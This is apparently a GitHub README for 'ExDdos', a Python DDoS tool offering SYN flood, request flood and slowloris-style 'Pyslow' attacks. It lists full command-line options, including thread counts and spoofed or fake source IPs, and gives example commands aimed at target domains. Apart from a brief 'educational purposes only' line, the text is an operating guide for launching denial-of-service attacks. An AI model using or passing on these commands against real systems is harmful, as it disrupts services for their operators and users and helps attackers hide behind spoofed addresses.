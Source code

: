 # ExDdos
DDos Script 
  
 This script have 3 type of ddos attacks : SYNFLOOD | REQUEST | Pyslow
Note:- 
Script has pyslow attack type which is similar to slowloris. 
  
  
  Requires Module :- 
  1) Termcolor
  2) colorama
  
  
  Note:- 
  Use this for educational purposes only..
  
  
  
  
  
  Usage :- 
  
  
 usage: python3 exddos.py -t [target] -p [port] -t [number threads]

optional arguments:
-h, --help       show this help message and exit
-v, --version    show program's version number and exit

options:

-d <ip|domain>   Specify your target such an ip or domain name

-t <float>       Set timeout for socket

-T <int>         Set threads number for connection (default = 1000)

-p <int>         Specify port target (default = 80) |Only required with pyslow attack|

-s <int>         Set sleep time for reconnection

-i <ip address>  Specify spoofed ip unless use fake ip

-Request         Enable request target

-Synflood        Enable synflood attack

-Pyslow          Enable pyslow attack

--fakeip         Option to create fake ip if not specify spoofed ip

Example:
  
  python3 exddos.py -d www.example.com -p 80 -T 2000 -Pyslow
  
  python3 exddos.py -d www.domain.com -s 100 -Request
   
  python3 exddos.py -d www.target.com -Synflood -T 5000 -t 10.0
